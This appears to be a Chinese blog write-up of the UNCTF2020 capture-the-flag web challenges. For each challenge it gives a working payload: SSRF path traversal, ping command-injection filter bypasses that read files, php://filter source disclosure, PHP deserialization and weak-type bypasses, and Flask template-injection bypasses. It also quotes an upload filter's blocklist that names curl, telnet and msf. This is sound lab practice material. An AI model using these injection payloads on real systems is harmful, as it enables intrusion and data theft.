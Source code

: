 ```yaml
---
title: UNCTF2020复现
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-11-17 22:48:48
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1113441.jpg
---
```

这比赛没报上名，借的别人的号看了看觉得题挺不错的，结束以后正好官方给了复现环境，打打基础准备接下来的NCTF和HECTF。

一、easy_ssrf

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201116141753.png)

payload：url=/unctf.com/../flag

考点：file_get_contents使用不存在的协议名导致目录穿越，实现SSRF
php源码中，在向目标请求时先会判断使用的协议。如果协议无法识别，就会认为它是个目录。

FILTER_VALIDATE_URL 过滤器把值作为 URL 来验证。https://www.runoob.com/php/filter-validate-url.html

题目中要求url中存在 unctf.com
我们可以构造类似 unctf.com/../ 这样的url，又因为我们需要查看flag文件

最终payload为 url=unctf.com/../flag

二、UN's_online_tools

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201116161548.png)

ping命令执行的绕过，就那么几样东西。
首先127.0.0.1||ls看到目录下的index.php和style.css
cat index.php显示非法字符
127.0.0.1|ca\t<index.php
成功绕过看到源码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201116161936.png)

payload：url=127.0.0.1|ta\c%09../../../fla%3F 

三、babyeval

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201116225325.png)

过滤了括号，以及返回的内容中不能含有flag

a=include "php://filter/read=convert.base64-encode/resource=flag.php";

四、ezfind

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117121654.png)

http://2b4e0d94-c2fd-4aa6-ba2c-af5528e74031.node1.hackingfor.fun/index.php?name[]=1

随便传个数组就绕过了，不知道咋回事，应该是非预期。
等wp出来看看预期解。

五、easyunserialize

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117122155.png)

明显的反序列化+字符串逃逸
最基础的
payload：#1=challengechallengechallengechallengechallengechallengechallengechallenge";s:8:"password";i:1;}";s:8:"password";s:4:"easy";}aaa

六、ezphp

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117130234.png)

payload：data=a:2:{s:8:"username";b:1;s:8:"password";b:1;}

这个上来乍一看直接让username=admin，password=password就行。但一波操作之后发现不行。
仔细研究发现如果是username数据类型是a的话$data_unserialzie['username']的值是不存在的，这里我也不是很清楚。
去网上找了下数据类型

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117133511.png)

bool类型的true跟任意字符串可以弱类型相等，即得出上面的payload。

七、easyflask

提示要以admin登录
由于题目是flask直接找到/register和/login
注册登录居然直接成功，然后在首页看到了这个

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117205801.png)

访问提示you should 'guess' the secret number

尝试：/secret_route_you_do_not_know?guess={{7*7}}

返回49 error!!
存在ssti
拿了个库存的paylaod打算一把梭，然后发现有黑名单，单引号、下划线、方括号。
都是常见的绕过，也没什么难的，稍微改改就行。
[]可以用getitem()：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117225350.png)

__ 和 "(引号)可以用|attr绕过，例：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117225410.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201117222120.png)

八、easy_upload

perl|pyth|ph|auto|curl|base|\|>|rm|ryby|openssl|war|lua|msf|xter|telnet in contents!

可以传htaccess，由于过滤了php，换行绕过即可。


到此最基础的送分题应该是做完了，收获还是很大的，对我目前最弱的php的一些基础有了很大的提升（本地试了好多payload），同时复习了一遍各种绕过。最后感谢一下UNCTF的师傅们赛后还提供了复现环境。

